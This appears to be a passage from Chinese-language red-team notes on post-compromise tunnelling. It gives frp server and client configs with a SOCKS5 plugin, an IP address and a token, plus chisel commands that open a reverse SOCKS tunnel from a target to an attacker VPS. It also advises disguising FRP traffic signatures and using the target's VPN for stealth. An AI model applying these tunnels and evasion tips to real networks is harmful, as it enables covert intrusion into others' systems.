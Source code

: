 frps.ini

```bash
[common]
bind_addr = 0.0.0.0
bind_port = 7000
kcp_bind_port = 7000
token = 18xujk38
tcp_mux = true
log_file = ./frps.log
log_level = info
log_max_days = 3
```

frpc.ini

```bash
[common]
server_addr = 106.2.120.110
server_port = 7000
protocol = kcp
token = 18xujk38

[plugin_socks5]
type = tcp
local_port = 8084
remote_port = 29017
plugin = socks5
use_encryption = true
use_compression = true
```

frp 内网穿透，配合 vps 使用，效果还不错。在反弹 Shell 时一直有个问题，在没有公网 vps 中转流量如何反弹 Shell 到本机？

拿到管理员权限后可以用 Proxifer 来代理本机软件，通过 frp 开 socket 连接到目标内网。

最好将 FRP 流量特征改掉，启用 TLS，将配置硬编码到程序里，其他只留部分作为命令行参数，比如 ip 端口。

##### chisel

VPS 监听端口

```bash
chisel server -p <Port> --reverse
```

客户端连接

```bash
chisel client <VPS-IP>:<Port> R:socks
```

##### nps

#### 3.1.2 VPN

使用目标自带的 VPN 会更加隐蔽。
